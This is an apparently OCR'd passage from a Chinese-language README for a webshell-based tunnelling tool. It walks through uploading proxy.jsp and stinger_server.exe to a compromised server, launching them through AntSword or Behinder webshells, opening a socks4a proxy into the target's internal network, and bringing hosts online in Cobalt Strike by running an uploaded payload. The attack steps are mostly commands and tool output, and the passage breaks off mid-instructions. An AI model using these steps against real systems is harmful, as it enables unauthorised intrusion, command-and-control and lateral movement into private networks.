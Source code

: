 - 此时已经在vps`127.0.0.1:60000`启动了一个`example.com`所在内网的**socks4a**代理
- 此时已经将目标服务器的`127.0.0.1:60020`映射到vps的`127.0.0.1:60020`

#### **cobalt strike单主机上线**

- proxy.jsp上传到目标服务器,确保 http://example.com:8080/proxy.jsp 可以访问,页面返回 `UTF-8`
- 将stinger_server.exe上传到目标服务器,蚁剑/冰蝎执行`start D:/XXX/stinger_server.exe`启动服务端

> 不要直接运行D:/XXX/stinger_server.exe,会导致tcp断连

- stinger_client命令行执行`./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000`
- 如下输出表示成功

```php
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```

- cobalt strike添加监听,端口选择输出信息`RAT Config`中的Handler/LISTEN中的端口(通常为60020),beacons为**127.0.0.1**
- 生成payload,上传到主机运行后即可上线

#### **cobalt strike多主机上线**

- proxy.jsp上传到目标服务器,确保 http://example.com:8080/proxy.jsp 可以访问,页面返回 `UTF-8`

- 将stinger_server.exe上传到目标服务器,蚁剑/冰蝎执行

  ```php
  start D:/XXX/stinger_server.exe 192.168.3.11
  ```

  启动服务端

> 192.168.3.11可以改成0.0.0.0
